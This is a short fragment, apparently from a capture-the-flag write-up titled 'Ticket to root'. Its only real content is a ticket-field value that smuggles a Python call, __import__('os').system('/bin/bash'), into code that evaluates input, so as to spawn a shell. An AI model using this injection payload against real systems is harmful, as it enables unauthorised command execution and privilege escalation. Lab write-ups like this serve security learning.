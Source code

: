 ## Ticket to root  
__Ticket Code:__ 
**102 + 10 == 112 and __import__('os').system('/bin/bash') == False
